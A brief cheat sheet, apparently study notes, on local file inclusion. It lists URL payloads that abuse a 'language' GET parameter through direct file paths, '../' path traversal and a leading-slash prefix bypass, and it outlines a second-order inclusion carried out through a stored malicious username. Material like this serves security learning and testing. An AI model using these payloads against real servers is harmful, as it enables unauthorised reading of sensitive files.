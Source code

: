 

Passing file names into get parameters
```
http://<SERVER_IP>:<PORT>/index.php?language=/PATH/FILE
```

Path traversal with get parameter
```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../PATH/FILE
```

Filename prefix evasion with prepended forward slash
```
http://<SERVER_IP>:<PORT>/index.php?language=/../../../PATH/FILE
```


File Inclusion with usernames via back-end data retrieval
1. Can be done by using malicious username
2. Malicious username stored in database
3. Malicious username can be used to retrieve file data
